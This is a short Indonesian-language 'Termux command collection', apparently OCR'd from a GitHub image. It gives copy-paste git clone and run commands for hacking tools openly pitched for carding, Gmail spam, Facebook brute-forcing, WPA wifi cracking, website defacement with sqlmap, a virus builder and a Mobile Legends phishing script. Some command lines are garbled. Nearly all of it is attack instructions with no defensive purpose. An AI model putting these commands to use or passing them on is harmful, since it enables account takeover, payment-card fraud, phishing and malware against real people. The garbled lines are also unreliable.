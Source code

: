 @tuanmuda1
Welcome to you all (Penikmat copy/paste):v

Hallo gaeess :) apa kabar? Buruk? Alhamdulillah :v (Syukurin ea tod)
  Sebelum memulai kegiatan Copy/Paste command:v, mari bersama" Berdoa menurut
agama dan kepercayaan masing"..... Ok cukup:)
Biar apa bang? Biar ga di tabok ama yg punya tutorial :D

  Ok sob, kaya nya jari gw dh cape ngetik :v
Sekarang kita siapin bahan" yang di perlukan!!
1.Kopi (Non ABC ea) Biar ga kelihatan misquen:v
2.Rokok (yg di isep cuk, bukan di emut:)
3.L*nT3 (Biar sinyal lancar gaesss:)

Langsung ke command nya !
========================================================
++++++++++Kumpulan Command Termux++++++++++



*Puluhan Ratusan Kumpulan Pilihan Tools dari Termux dan Kali Linux
$pkg install git
$git clone https://github.com/Mrcakil/mrcakil
$cd mrcakil
$chmod +x tools
$./tools


*Bot Auto Reaction Facebook
$git clone https://github.com/AMVengeance/FB-React.git 
$chmod +x FB-React -R cd FB-React ./start

*NIK dan KK Gratis
$pkg install php git 
$git clone https://github.com/IndonesianSecurity/kkktp
$cd kkktp
$php kkktp.php


*Tools B4J1N94N
Fitur :
-Nyari CC buat carding
-Spam akun gmail
-Whois lookup
Dan ratusan tools lainnya


$git clone https://github.com/DarknessCyberTeam/B4J1N64Nv5
$cd B4J1N64Nv5
$sh B4J1N64N.sh

*Crack hash password
$git clone https://github.com/FajriHidayat088/FHX-Hash-Killer/
$cd FHX-Hash-Killer
$python2 FHXHashKiller.py

*Wifilite (Crack pass wifi : wpa/wpa2)
$git clone https://github.com/derv82/wifite
$cd wifite
$chmod 777 wifite.py
$python2 wifite.py


*Redhawk
Fitur Redhawk :
-Server detection
-Cloudflare detector
-robots scanner
-Whois lookup
-GEO-IP Scan
-NMAP Port Scan
-DNS Lookup
-SubNet Calculator
-Subdomain Finder
-Reverse IP Scanner
-CMS detection For Sites On the same server.
-Parameter Finder
-Error based SQLi Detector
Dan lain - lain.

$git clone https://github.com/Tuhinshubhra/RED_HAWK
$cd RED_HAWK
$chmod +x rhawk.php
$php rhawk.php


*Install SQLMAP
Tools ini berguna sekali untuk kegiatan mengetes keamanan website, deface, carding dan semacamnya
$git clone https://github.com/sqlmapproject/sqlmap
$cd sqlmap
$python2 sqlmap.py
$python2 sqlmap.py -u website.com --dbs
(Mengetahui semua parameter Sqlmap)👇
$python2 sqlmap.py -hh
(Mengetahui semua parameter Sqlmap)👇
$python2 sqlmap.py -hh
(Melacak IP)👇
$git clone https://github.com/maldevel/IPGeolocation 
$cd IPGeolocation
$chmod +x ipgeolocation.py
$pip install -r requirements.txt 
$python ipgeolocation.py -m
$python ipgeolocation.py -t IPnya


*Hack Akun Facebook
$pkg install python2-dev
$apt install wget
$dip2 install mechanize
$cd/sterage/emulated/0
$python2 fbbrute.py
$storage/emulated/0/password.txt


*Membuat Virus
$git clone https://github.com/viruz09/CreaterVirus cd CreaterVirus python2 creater.py
(Cara copy virus)
$cp agents.apk /lokasi/folder


*Hack Akun Game Mobile Legends
$git clone https://github.com/Senitopeng/PhisingGame.git
$cd PhisingGame
$python2 phising.py
(Lihat result)👇
$cd PhisingGame
$cat buku.txt


Tutorial berikutnya? Next time again ea tod :)








